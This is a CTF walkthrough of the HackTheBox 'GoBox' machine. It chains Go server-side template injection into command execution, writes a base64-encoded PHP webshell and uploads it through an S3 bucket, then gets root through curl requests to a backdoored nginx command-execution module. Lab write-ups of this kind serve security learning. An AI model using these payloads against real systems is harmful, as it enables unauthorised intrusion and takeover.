








# GoBox — HTB

GoBox is a Go-lang playground where templates turn into trapdoors, S3 buckets become shell launchpads, and a custom nginx module hands you root. This walkthrough chains **Go Server-Side Template Injection (SSTI)** into a webshell uploaded via a LocalStack S3 bucket, and finishes with a config-to-root escalation through a backdoored nginx module.

## Recon with Nmap

We kick things off with an Nmap scan against `10.10.11.113` and find a minimalist, almost *too clean* attack surface:

- **Port 22** — SSH, OpenSSH 8.2 (Ubuntu)
- **Port 80 & 8080** — twin nginx servers
- **Ports 9000–9002** — all filtered

```
sudo nmap -sC -sV -Pn 10.10.11.113 -oN nmap.txt

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http       nginx
8080/tcp open     http       nginx
9000/tcp filtered cslistener
9001/tcp filtered tor-orport
9002/tcp filtered dynamid
```

## Finding the injection point

After methodically testing multiple endpoints for common injection vulnerabilities, I arrived at a `/forgot` endpoint while probing `http://gobox.htb:8080/`.



In Burp Suite I noticed the `X-Forwarded-Server: golang` header — a clear signal that the backend is powered by Go. That got me thinking: if it's rendering templates, could it be vulnerable to **Server-Side Template Injection**?

That's when I referenced OnSecurity's research on Go SSTI, which reveals a critical nuance: when a Go template is rendered with a struct like `&user{}`, it dynamically interpolates field values — such as `{{.Email}}` — directly from the object. What begins as a simple template render becomes a direct path to data exfiltration.



After experimenting with `.Secret`, we pivoted to a juicier target: a `.DebugCmd` method that didn't just echo input — it echoed **control**.



```
{{ .DebugCmd "id" }}                          // Check for user privileges
{{ .DebugCmd "env" }}                         // View environment variables
{{ .DebugCmd "aws s3 ls s3://" }}             // List S3 buckets
{{ .DebugCmd "aws s3 ls s3://website" }}      // List contents of a specific bucket
```

## Crafting the shell — two-step upload

We needed a PHP webshell that lets us run commands via the browser.

**Step 1 — create the shell locally on the box:**

```
{{ .DebugCmd "echo -n PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | base64 -d > /tmp/evil.php" }}
```

This takes a base64-encoded string (which decodes to `<?php system($_GET[cmd]); ?>`) and writes it to `/tmp/evil.php`.



**Step 2 — upload it to the S3 bucket:**

```
{{ .DebugCmd "aws s3 cp /tmp/evil.php s3://website/evil.php" }}
```

Now `http://10.10.11.113/evil.php` exists and it's ours.



## Getting a foothold

Visiting `http://10.10.11.113/evil.php?cmd=id` confirms the shell works.



We trigger a reverse shell back to our machine:



And catch it on our listener:



The shell was raw, so we upgraded it:

```
www-data@gobox:/opt/website$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gobox:/opt/website$ cat /home/ubuntu/user.txt
```

## Privilege escalation — the backdoored nginx module

Reading the nginx config revealed something that isn't standard nginx:

```
server {
    listen 127.0.0.1:8000;
    location / {
        command on;
    }
}
```

`command on;` is not stock nginx. A quick search for "command on; nginx github" surfaced **NginxExecute** — a custom module compiled into nginx that allows **command execution via HTTP requests, as root**.

To verify, I pulled strings from the module rather than reverse-engineering it:

```
www-data@gobox:/home/ubuntu$ strings /usr/share/nginx/modules/ngx_http_execute_module.so | grep run
ippsec.run
```

## The payload that ended it all

No sudo, no kernel exploits — just a curl to the internal listener:

```
www-data@gobox:/home/ubuntu$ curl -g "http://127.0.0.1:8000/?ippsec.run[id]"
uid=0(root) gid=0(root) groups=0(root)

www-data@gobox:/home/ubuntu$ curl -g "http://127.0.0.1:8000/?ippsec.run[cat /root/root.txt]"
```

Pure, unadulterated config-to-root escalation.

**Happy Hacking!!!**
